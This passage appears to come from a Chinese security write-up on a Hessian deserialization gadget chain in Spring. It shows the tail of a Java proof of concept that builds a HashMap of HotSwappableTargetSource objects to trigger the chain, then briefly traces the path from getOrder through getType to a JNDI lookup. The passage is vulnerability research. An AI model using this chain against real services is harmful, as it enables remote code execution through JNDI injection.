 ```plain
        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(new XString("1"));
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(new XString("a"));
        HashMap hashMap = new HashMap();
        hashMap.put(hotSwappableTargetSource, "1");
        hashMap.put(hotSwappableTargetSource1, "2");
        setFieldValue(hotSwappableTargetSource,"target",Partially);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);
    }
```

简单分析：

首先在`SimpleJndiBeanFactory#doGetSingleton`中存在`lookup`接口，在同一个类中`SimpleJndiBeanFactory#getType()`可以调用到`doGetSingleton`

[![](assets/1706145875-39332659d8b0b3f521815ccc4d4d6f4b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122222705-5146f956-b932-1.png)

`BeanFactoryAspectInstanceFactory#getOrder()`中，存在着可控`beanFactory和name`能够调用`getType`

[![](assets/1706145875-3ae8306089f6ca0630e298231ff19486.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122222716-576cce28-b932-1.png)
